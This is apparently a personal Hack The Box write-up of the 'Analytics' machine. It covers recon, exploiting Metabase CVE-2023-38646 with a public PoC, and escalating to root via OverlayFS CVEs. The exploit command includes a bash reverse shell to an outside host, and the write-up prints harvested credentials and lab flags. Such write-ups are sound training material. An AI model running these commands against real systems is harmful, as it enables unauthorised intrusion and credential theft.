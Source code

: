 ```yaml
---
Title: Analytics HTB Machine
Year: "2023"
Difficulty: Easy
share: "true"
---
```


- [[#Reconnaissance|Reconnaissance]]
- [[#Weaponisation|Weaponisation]]
- [[#Delivery|Delivery]]
- [[#Exploitation|Exploitation]]
- [[#Actions on Objective|Actions on Objective]]

## Reconnaissance

- Conducted an NMAP Scan which seemed to take for ever so I killed it initially. 
- I found through probing that the following ports were active
	- 80
	- 22
	- 3000

- Browsed to the website which attempted to redirect to analytical.htb so I added that to /etc/hosts
- Nothing too exciting on the page except the for Login link. This redirects to http://data.analytical.htb so I added that to /etc/hosts and browsed to that. 
- A vhost search using Gobuster confirmed the presence of this subdomain
	- `gobuster vhost -u http://analytical.htb/ -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain --timeout 20s`

![[Screenshot 2023-12-12 at 5.27.46 pm.png|Screenshot 2023-12-12 at 5.27.46 pm.png]]

- This brings up a login page for something called Metabase.
- I tried some quick SQLi checks to see if there was something simple like that but they didn't work.
![[Screenshot 2023-12-12 at 5.22.04 pm.png|Screenshot 2023-12-12 at 5.22.04 pm.png]]

- I fired up Burpsuite to take a deeper look at whats going on. 
- Taking a look at the Response from /auth/login down the bottom I find a Date and a Version Number. 
	- Date: 2023-06-29
	- Version: 0.46.6
	- Branch: Release-x.46.x
-
![[Screenshot 2023-12-12 at 5.30.01 pm.png|Screenshot 2023-12-12 at 5.30.01 pm.png]]
## Weaponisation

- I punch this information into Google and it reveals that there is a CVE listed against this product and this version
	- CVE-2023-38646
	- This is an RCE and allows for the execution of code prior to authentication
- There were a couple of PoC's and the first one I tried didn't work. However, the one I found at the following repo worked like a charm. 
	- https://github.com/Pyr0sec/CVE-2023-38646
- For this i needed the Setup-Token from Metabase. This can be found in the /api/session/properties end point
- A quick search of this endpoint in Burp turned that up
	- `249fa03d-fd94-4d5b-b94f-b4ebf3df681f`
![[Screenshot 2023-12-12 at 5.35.16 pm.png|Screenshot 2023-12-12 at 5.35.16 pm.png]]
## Delivery

- With that information I launched a listener
	- `nc -lvnp 4242`
- Then launched the exploit with the following command
	- `python3 exploit.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "bash -i >& /dev/tcp/10.10.14.179/4242 0>&1"`
- The exploit reports that it has sent the payload and you receive an Response. I initially thought it had failed but when I went over to my listener I was in.
![[Screenshot 2023-12-12 at 5.41.13 pm.png|Screenshot 2023-12-12 at 5.41.13 pm.png]]
## Exploitation

- Before we go any further I need to upgrade the shell to something more useable. My usual method of using Python to break out of the pseudo shell didn't work. Python doesn't seem to be present. 
- The script program wasn't available either. This feels like a more secure linux variant. 
- So I checked /etc/os-release and it's Alpine Linux Version 3.18
- Pulling the /etc/passwd file didn't reveal any normal users except metabase. However, it did show a user squid, vpopmail and cyrus all pointing to /sbin/nologin
- Metabase is a user with a shell and so if I can compromise it's password I'll have better access
- I found what looks like a start script (start_metabase.sh) for metabase in /app and looking through it, it refers to some environmental variables that could contain credentials. 
- What I couldn't workout was where to find those. 
- After some research I had to fall back to a walkthrough to get pointed in the right direction, and it turns out I was on the right path I just needed to find the right file. 
- The file I was looking for was /proc/self/environ
- It's contents are as follows:

```
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=8fe80d2d640c
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/metabase.db
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=FC_LANG=enUS
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../libLC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7_=/bin/catOLDPWD=/8fe80d2d640c:/metabase.db
```
- So I've got some credentials for Metabase
	- Username: metalytics
	- Password: An4lytics_ds20223#
- Metabase requires an email to login so I took a punt and used metalytics@analytical.htb and it worked. I looked through the app and there was nothing of interest.
- I tried to SSH into 10.10.11.233 with the metabase username and the password recovered but that didn't work.
- Something that I hadn't come up against before are docker containers. When I gained a psuedo shell it was into the Docker Container not the host machine. So that's why I was struggling to find any useful information. 
- It is also why when I tried the password recovered with the metabase user that I had from the passwd file it didn't work. But when I tried metalytics I was able to ssh into the machine.
- But instead of hitting the docker container I hit the host.

![[Screenshot 2023-12-12 at 8.43.43 pm.png|Screenshot 2023-12-12 at 8.43.43 pm.png]]
## Actions on Objective

- I recovered the user flag
	- `3b97409bd01e67acd5fa17494ff4bc7a`
- Now time to get root. 
- This user doesn't have sudo access
- The OS is Ubuntu 22.04.03 LTS
- I was able to gain root access using a vulnerability in the binary runC however, because it is a rootless container it was very limited and I couldn't get access to anything.
- So I went back to the drawing board. I ran linPEAS to see if it turned anything up and there wasn't anything really useful. 
- So I took a look at the kernel to see if we can target that. 
- The system information is as follows:

```
PRETTY_NAME="Ubuntu 22.04.3 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.3 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=jammy

Kernel: 6.2.0-25-generic
```

- With some googling we turn up the following CVE's
	- CVE-2023-2640
	- CVE-2023-32629
- Both of these CVE's are related to the OverlayFS in certain Ubuntu Versions

| Kernel version | Ubuntu release                                                    |
| -------------- | ----------------------------------------------------------------- |
| 6.2.0          | Ubuntu 23.04 (Lunar Lobster) / Ubuntu 22.04 LTS (Jammy Jellyfish) |
| 5.19.0         | Ubuntu 22.10 (Kinetic Kudu) / Ubuntu 22.04 LTS (Jammy Jellyfish)  |
| 5.4.0               |                    Ubuntu 22.04 LTS (Local Fossa) / Ubuntu 18.04 LTS (Bionic Beaver)                                               |

- I found a PoC at https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629
- Ran it on target machine
	- `./exploit.sh`
- It worked and we now have Root Access
![[Screenshot 2023-12-13 at 5.12.11 pm.png|Screenshot 2023-12-13 at 5.12.11 pm.png]]
- Recovered the Root Flag
	- `e33694b78372b64246889e2dbe5467b5`

